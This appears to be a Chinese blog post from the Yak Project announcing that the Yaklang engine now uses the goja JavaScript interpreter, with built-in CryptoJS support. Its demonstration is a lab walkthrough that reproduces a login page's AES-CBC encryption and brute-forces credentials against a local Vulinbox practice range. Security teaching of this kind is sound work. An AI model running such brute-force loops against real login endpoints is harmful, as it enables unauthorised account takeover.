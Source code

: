 #  上新！更强大的JS引擎：goja   
原创 Lonelone  Yak Project   2024-04-25 17:30  
  
![](/articles/wechat2md-57d4b38fb5fac67b077017855ed50c43.gif)  
  
![](/articles/wechat2md-01c1c684e6a259dea97dd828d8543ec7.gif)  
  
  
**前言**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
  
一直以来，Yaklang引擎使用 robertkrimen/otto  
（**以下简称otto**）作为 JavaScript 解释器以执行一些 JavaScript 代码。然而，最近用户提出的许多新需求在使用 otto 这个第三方库时遇到了一些问题，其主要原因是因为 otto 的语法树解析实现存在一些问题，因此在遇到一些执行压缩过后的 JavaScript 第三方依赖（如常见的CryptoJS）时会出现解析错误。  
  
为了解决这个问题，也为了完善用户的体验，我们决  
定使用 **dop251/goja**  
（**以下简称为 goja** ）这个第三方库来代替 otto 这个库，让 otto 这个库光荣退休。  
> otto: 我不是退役了 我只是没人要  
  
##   
  
**为什么选择 goja**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
##   
  
选择   
**goja**的原因有很多，列出主要的几点：  
  
**YAK**  
  
- 完整的 ECMAScript 5.1 实现（甚至有不完整的ECMAScript 6.0 实现）  
  
- 通过了大部分的 tc39 tests，这是官方的 ECMAScript 一致性测试套件  
  
- 比 otto 的平均速度快6~7倍  
  
  
  
##   
  
**几乎一致性的API**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
  
对于yaklang语言的用户来说，此次升级是几乎无感知的，在升级的同时确保了 80% 的API无变动，但由于底层实现不尽相同，因此可能会存在某些不常用的函数（如js.ASTWalk  
，js.GetSTType  
）以及结构体方法（如Value）会存在某些差异，对此库用户的影响控制在合适的范围内。  
  
  
**全新的****内置第三方JavaScript依赖API**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
  
此次升级的一个重要点在于为了解决使用某些常用 **JavaScript******第三方依赖（如上文提到的 **CryptoJS**）的问题。通过新的API，我们可以快速地使用这些 **JavaScript**第三方依赖，而省略编译的过程（初次编译之后会进行缓存，之后不再需要进行编译）。  
  
一个简单的使用**CryptoJS V3**的例子如下：  
```
_, value = js.Run(`
    CryptoJS.HmacSHA256("Message", "secret").toString();
 `, js.libCryptoJSV3())~
 println(value.String())
```  
##   
  
**实战案例**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
  
以 **Yakit** 自带的 **Vulinbox**靶场其中的高级前端加解密与验签实战 - CryptoJS.AES(CBC) 前端加密登陆表单  
为例，讲解一下如何使用升级后的 js 库。如何安装与启动 **Vulinbox**靶场这里不再赘述。靶场详细参考此文[【文末抽奖】Yak叫你来打靶了](http://mp.weixin.qq.com/s?__biz=Mzk0MTM4NzIxMQ==&mid=2247512304&idx=1&sn=dc1f3b3119309c495f1bd438b6b8b059&chksm=c2d1cc54f5a645420b1a075484b3f444d4b29736b7aa32265c877ba1a45620fdf04fcd9d7cda&scene=21#wechat_redirect)  
  
  
网站页面如下：  
  
![](/articles/wechat2md-82dafeff9bdc72ca6c35d609d98398fd.png)  
  
打开网站后，我们查看其页面源代码，观察前端是如何对数据进行加密的，主要核心代码如下：  
```
var iv = CryptoJS.lib.WordArray.random(128/8);

function generateKey() {
    return  CryptoJS.enc.Utf8.parse("1234123412341234")  // 十六位十六进制数作为密钥
}

const key = generateKey()

// 加密方法
function Encrypt(word) {
    console.info(word);
    return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
}

function getData() {
    return {
        "username": document.getElementById("username").value,
        "password": document.getElementById("password").value,
    }
}

function outputObj(jsonData) {
    const word = JSON.stringify(jsonData);
    return {
        "data": Encrypt(word),
        "key": key.toString(),
        iv: iv.toString(),
    }
}

function submitJSON(event) {
    event.preventDefault();

    const url = "/crypto/js/lib/aes/cbc/handler";
    let jsonData = getData();
    let submitResult = JSON.stringify(outputObj(jsonData), null, 2)
    // 使用submitResult请求后台接口...
}

document.getElementById("json-form").addEventListener("submit", submitJSON)
```  
  
简单分析知道，其最后请求的请求体是 **submitResult**这个变量，这是一段JSON，包含了 **data**, **key**, **iv**三个属性，其中 key 是固定的，iv 是随机生成的。虽然 iv 是随机生成的，但是并不影响我们进行爆破，我们可以同样生成一个新的iv或者使用页面的iv也可。  
  
最后我们提炼出以下代码，基本上直接复制上述的js代码稍作修改即可使用：  
```

```  
```
// 注意这里我们不能直接复制 key 的赋值代码，这是因为 ECMAScript 5.1 不支持 const 关键字
key = CryptoJS.enc.Utf8.parse("1234123412341234");
iv = CryptoJS.lib.WordArray.random(128/8);

function Encrypt(word) {
    console.info(word);
    return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
}

function getData(username, password) {
    return {
        "username": username, 
        "password": password,
    }
}

function outputObj(jsonData) {
    const word = JSON.stringify(jsonData);
    return {
        "data": Encrypt(word),
        "key": key.toString(),
        iv: iv.toString(),
    }
}

jsonData = getData("username", "password"); // 这里填写爆破的用户名和密码
submitResult = JSON.stringify(outputObj(jsonData), null, 2);// 最后发送的请求体

```  
  
最终我们编写了一段简单的 Yak 代码，用于对此题进行爆破：  
```
for user in ["user", "admin"] {
    for pass in ["pass", "123456"] {
        vm, _ = js.Run(`
        key = CryptoJS.enc.Utf8.parse("1234123412341234");
        iv = CryptoJS.lib.WordArray.random(128/8);

        function Encrypt(word) {
            return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
        }

        function getData(username, password) {
            return {
                "username": username, 
                "password": password,
            }
        }

        function outputObj(jsonData) {
            const word = JSON.stringify(jsonData);
            return {
                "data": Encrypt(word),
                "key": key.toString(),
                iv: iv.toString(),
            }
        }

        jsonData = getData(%#v, %#v);
        submitResult = JSON.stringify(outputObj(jsonData), null, 2);` % [user, pass], js.libCryptoJSV3())~

        body = vm.Get("submitResult").String()

        rsp, _ = poc.Post("http://127.0.0.1:8787/crypto/js/lib/aes/cbc/handler", poc.replaceBody([]byte(body), false))~
        println(string(rsp.RawPacket))
    }
}
```  
```

```  
  
![](/articles/wechat2md-290a7e3105ce58757542a21da3db5eb2.png)  
  
响应中显示解密前端内容成功  
，这证明我们已经成功将请求体进行加密，可以用于爆破，后续只需要在for循环填入需要爆破的用户名密码即可。  
  
  
**END**  
  
  
  
  
  
 **YAK官方资源**  
  
  
Yak 语言官方教程：  
https://yaklang.com/docs/intro/Yakit 视频教程：  
https://space.bilibili.com/437503777Github下载地址：  
https://github.com/yaklang/yakitYakit官网下载地址：  
https://yaklang.com/Yakit安装文档：  
https://yaklang.com/products/download_and_installYakit使用文档：  
https://yaklang.com/products/intro/常见问题速查：  
https://yaklang.com/products/FAQ  
  
![](/articles/wechat2md-85062b6e6c63b9d9d17d1e2a5ca2ec01.other)  
  
**长按识别添加工作人员**  
  
开启Yakit进阶之旅  
  
![](/articles/wechat2md-14665f86963c7c123b43378ebc55bb0f.other)  
  
  
